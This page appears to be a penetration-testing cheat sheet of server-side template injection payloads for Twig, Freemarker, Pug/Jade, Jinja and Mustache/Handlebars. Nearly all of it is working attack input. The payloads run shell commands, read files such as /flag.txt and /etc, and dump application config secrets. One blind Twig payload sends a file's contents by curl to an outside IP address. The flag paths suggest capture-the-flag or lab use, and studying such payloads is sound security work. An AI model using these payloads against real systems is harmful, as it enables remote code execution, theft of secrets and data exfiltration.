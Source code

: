 ```yaml
---
title: Useful Payloads
layout: default
parent: SSTI
has_children: false
nav_order: 1
---
```


<h2>Twig:</h2>
{% raw %}
    {{[0]|reduce('system','whoami')}}
    {{['id']|filter('system')}}
    {{[0]|reduce('passthru','ls')}}
    {{[0]|reduce('exec','ls')}}
    {{[0]|reduce('shell_exec','ls')}}
{% endraw %}

<h2>Twig (blind/exfil only):</h2>
{% raw %}
    {% set output %}
    {{[0]|reduce('system','cat /flag.txt')}}
    {% endset %}
    {% set exfil = output| url_encode %}
    {{[0]|reduce('system','curl http://192.168.45.214/?exfil=' ~ exfil)}}
{% endraw %}

<h2>Freemarker:</h2>
{% raw %}
    ${"freemarker.template.utility.Execute"?new()("whoami")}
{% endraw %}

<h2>Pug/Jade:</h2>
{% raw %}
    - var require = global.process.mainModule.require
    = require('child_process').spawnSync('ls',['-la','/tmp']).stdout
{% endraw %}

<h2>Jinja (NOT RCE, just config secrets):</h2>
{% raw %}
    {{config|pprint}}
{% endraw %}

<h2>Mustache and Handlebars (NOT RCE, just file read. First 3 lines is to read directory, subsequently read file):</h2>
{% raw %}
    {{#each (readdir "/etc")}}
        {{this}}
    {{/each}}

    {{read "/secret/flag.txt"}}
{% endraw %}